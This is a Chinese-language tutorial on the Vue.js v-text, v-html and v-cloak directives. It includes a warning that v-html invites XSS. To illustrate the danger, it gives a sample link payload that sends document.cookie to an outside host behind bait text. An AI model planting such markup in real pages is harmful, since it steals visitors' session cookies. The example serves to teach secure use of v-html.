 ```javascript
//v-text:向其所在的节点中渲染文本内容,与插值语法的区别是v-text会替换掉节点中的内容,{{xx}}则不会
new Vue({
  el:'root',
  data:{
    name:'尚硅谷',
    str:'<h3>你好啊！</h3>'//v-text无法解析
  }
})
```

# v-html指令

v-html指令:向指定节点中渲染包含html结构的内容

1. 与插值语法的区别：
   1. v-html会替换掉节点中所有的内容，{{xx}}则不会
   2. v-html可以识别html结构
2. 严重注意:v-html有安全性问题
   1. 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击
   2. 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上

```html
<div id="root">
  <div>你好，{{name}}</div>
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>
```

```javascript
new Vue({
  el:'root',
  data:{
    name:'尚硅谷',
    str:'<h3>你好啊！</h3>',
    str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了,快来！</a>'
  }
})
```

![](D:\OneDrive\Vue\1\41.cookie的缓存原理.png)

# v-cloak指令

v-cloak指令（没有值）:会隐藏带有v-cloak属性的标签

1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性
2. 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题

```html
<div id="root">
  <h2 v-cloak>{{name}}</h2>
</div>
```
